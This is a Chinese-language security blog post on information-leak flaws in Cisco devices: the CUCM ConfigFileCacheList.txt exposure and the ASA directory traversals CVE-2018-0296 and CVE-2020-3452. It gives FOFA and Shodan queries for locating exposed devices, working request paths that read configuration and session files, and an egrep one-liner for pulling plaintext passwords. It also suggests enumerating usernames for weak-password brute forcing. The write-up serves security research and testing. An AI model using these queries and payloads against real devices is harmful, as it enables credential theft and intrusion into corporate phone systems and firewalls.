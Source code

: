 

# cisco 设备信息泄漏漏洞案例 2

上一篇文章介绍了 cisco 路由器设备的 2 个漏洞案例，这次补充 cisco ip 电话设备和安全设备的漏洞案例。

info

本文首发 合天网安 [https://mp.weixin.qq.com/s/uLcVV-jPiT1A\_zTwqkpmgQ](https://mp.weixin.qq.com/s/uLcVV-jPiT1A_zTwqkpmgQ)

- - -

## [](#cisco-ucm-configfilecachelisttxt-%E6%B3%84%E6%BC%8F)CISCO-UCM ConfigFileCacheList.txt 泄漏

CISCO-UCM 全称 Cisco Unified Communications Manager, 是用于集成 CISCO 的语音视频通话、消息传递和移动协作的基础设施

部分 CUCM 服务器在端口 TCP/6970 上有一个 HTTP 服务，其中存在 ConfigFileCacheList.txt 文件，包含位于 TFTP 目录中的所有文件名。

fofa 语句

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>product=="CISCO-UCM"<br>``` |

shodan 语句

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>http.html:"Cisco Unified Communications Manager"<br>``` |

payload

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>x.x.x.x:6970/ConfigFileCacheList.txt<br>``` |

在目标文件中包含了许多 SEP 开头的文件，那是 ip 电话的配置文件，sep 后面接的是 mac 地址

[![Untitled](assets/1710207698-d71b5df1b4b2417de6f0020287ee173d.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled.png)

可以遍历下载这个 ConfigFileCacheList.txt 文件内容中的所有文件

[![Untitled](assets/1710207698-1d5e022132c22e1bfb06a9256640a7d2.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%201.png)

在下载的配置文件中，包含 ip，描述，端口等配置信息

[![Untitled](assets/1710207698-b2e51285468aba2b18ce7442252e7d46.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%202.png)

甚至有的还会包含明文的账号密码

[![Untitled](assets/1710207698-e7859a6a82e5a7ff5086927a919e8ad7.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%203.png)

可以用 egrep 批量查找

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>egrep -r 'Password' *.xml<br>``` |

[![Untitled](assets/1710207698-ffed55b312f1e260fc79174fb3031a14.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%204.png)

在配置文件中获得了账号密码后，可以尝试登录 UCM 的 web 后台

[![Untitled](assets/1710207698-161870e5f40df60ea3815245f972ed6c.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%205.png)

当然这个 ConfigFileCacheList.txt 泄漏比较少见，如果遇到 UCM 可以试试访问 `/cucm-uds/users` 路径，可以泄漏用户名信息，再针对用户名进一步爆破弱口令

[![Untitled](assets/1710207698-06cbd1dafe0d40f3bd738fe805c634b5.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%206.png)

- - -

## [](#cve-2018-0296-cisco-asa-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E)CVE-2018-0296 Cisco ASA 目录遍历漏洞

Cisco ASA 是思科的防火墙设备，一般用于在企业边界，包含了 ips，avc，wse 等应用功能。

fofa 语句

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>app="CISCO-ASA-5520"<br>``` |

根据文章 [https://www.anquanke.com/post/id/171916](https://www.anquanke.com/post/id/171916) 中的描述，CVE-2018-0296 在不同型号设备上存在 2 种利用场景，一种是拒绝服务造成设备崩溃重启，一种是目录遍历获得敏感信息

在修复方案中则是增加了对`./` 和`../` 的处理逻辑，以防止目录遍历

拒绝服务这里就不具体测试了，主要看下目录遍历的利用

检测 poc

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>/+CSCOU+/../+CSCOE+/files/file_list.json<br>``` |

[![Untitled](assets/1710207698-9d45bd494149dfdc209c0b640a342fd7.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%207.png)

注意，类似的 poc 不能在浏览器里直接粘贴访问，因为浏览器会自动将访问的路径类似 /../ 解析为上一级目录，也就是访问的为 `/+CSCOE+/files/file_list.json`

列出 /sessions 目录的内容

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions<br>``` |

[![Untitled](assets/1710207698-711dc071d1518229853e4cb04b11ab5d.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%208.png)

提取登录用户的登录信息

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>/+CSCOU+/../+CSCOE+/files/file_list.json?path=/sessions/[name]<br>``` |

[![Untitled](assets/1710207698-4345120b19f2bb593050171b53024888.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%209.png)

- - -

## [](#cve-2020-3452-cisco-asa-%E7%9B%AE%E5%BD%95%E9%81%8D%E5%8E%86%E6%BC%8F%E6%B4%9E)**CVE-2020-3452** Cisco ASA 目录遍历漏洞

CVE-2020-3452 漏洞可以在未验证的情况下进行任意文件读取

该漏洞源于 ASA 和 FTD 的 web 服务接口在处理 HTTP 请求的 URL 时缺乏正确的输入验证，导致攻击者可以在目标设备上查看系统内的 web 目录文件。

此漏洞不能用于获取对 ASA 或 FTD 系统文件或底层操作系统 (OS) 文件的访问，所以只能读取 web 系统目录的文件，比如 webvpn 的配置文件、书签、网络 cookies、部分网络内容和超文本传输协议网址等信息。

作者在推特分享的检测 poc

[https://twitter.com/aboul3la/status/1286141887716503553](https://twitter.com/aboul3la/status/1286141887716503553)

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br>/+CSCOT+/oem-customization?app=AnyConnect&type=oem&platform=..&resource-type=..&name=%2bCSCOE%2b/portal_inc.lua<br>/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../<br>``` |

读取 `/+CSCOE+/portal_inc.lua` 文件

[![Untitled](assets/1710207698-3097a17885bb1c11867f242abcee6f4b.png)](https://r0fus0d.blog.ffffffff0x.com/img/cisco-case2/Untitled%2010.png)

至于进一步利用，有研究人员给出了一些已知文件列表

[https://twitter.com/HackerGautam/status/1286652700432662528](https://twitter.com/HackerGautam/status/1286652700432662528)

[https://raw.githubusercontent.com/3ndG4me/CVE-2020-3452-Exploit/master/cisco\_asa\_file\_list.txt](https://raw.githubusercontent.com/3ndG4me/CVE-2020-3452-Exploit/master/cisco_asa_file_list.txt)

不过实际测试，除了 `session.js` 跑出了一个乱码的内容以外，其他的文件多是一些资源文件，难以进一步利用。

- - -

## [](#source--reference)Source & Reference

-   [https://www.cisco.com/c/en/us/support/docs/unified-communications/unified-communications-manager-callmanager/200408-Retrieve-Phone-Configuration-File-from-T.html](https://www.cisco.com/c/en/us/support/docs/unified-communications/unified-communications-manager-callmanager/200408-Retrieve-Phone-Configuration-File-from-T.html)
-   [https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86](https://tools.cisco.com/security/center/content/CiscoSecurityAdvisory/cisco-sa-asaftd-ro-path-KJuQhB86)
-   [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
-   [https://sekurak.pl/opis-bledu-cve-2018-0296-ominiecie-uwierzytelnienia-w-webinterfejsie-cisco-asa/](https://sekurak.pl/opis-bledu-cve-2018-0296-ominiecie-uwierzytelnienia-w-webinterfejsie-cisco-asa/)
-   [https://www.anquanke.com/post/id/171916](https://www.anquanke.com/post/id/171916)
